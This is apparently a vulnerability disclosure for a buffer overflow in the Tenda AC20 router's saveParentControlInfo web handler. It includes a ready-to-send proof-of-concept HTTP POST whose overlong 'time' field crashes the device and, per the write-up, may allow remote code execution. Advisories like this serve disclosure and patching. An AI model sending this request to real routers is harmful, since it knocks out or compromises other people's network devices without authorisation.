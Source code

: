# Information



**Vendor of the products:**   Shenzhen Tenda Technology Co.,Ltd.

**Vendor's website:**https://www.tenda.com.cn/

**Affected products:** AC20

**Affected firmware version:** <= V16.03.08.12 (latest)

**Firmware download address:** [tenda.com.cn/material/show/3264](https://www.tenda.com.cn/material/show/3264)

# Overview

A buffer overflow vulnerability was discovered on the latest version of the Tengda AC20 router, V16.03.08.12, where an attacker sent a well-constructed http post packet to the request path /goform/saveParentControlInfo, triggering a denial of service attack or even RCE, specifically via the function strcpy(s + 2, var); triggered, the reason is because there is no boundary check on var

# Vulnerability details

The prerequisite is that the function is called saveParentControlInfo

![](img/1.png)

Here the two fields are valued deviceId, deviceName, and then the function compare_parentcontrol_time is called, and the time is valued in the function compare_parentcontrol_time, but because of sscanf(s, "%[^-]-%s", v3, v4); Not checking results in a buffer overflow vulnerability

![](img/2.png)

# POC

```
POST /goform/saveParentControlInfo HTTP/1.1
Host: 192.168.102.145
Content-Length: 95
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.102.145
Referer: http://192.168.102.145/main.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive

deviceName=123&time=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-b
```

![](img/3.png)



![](img/4.png)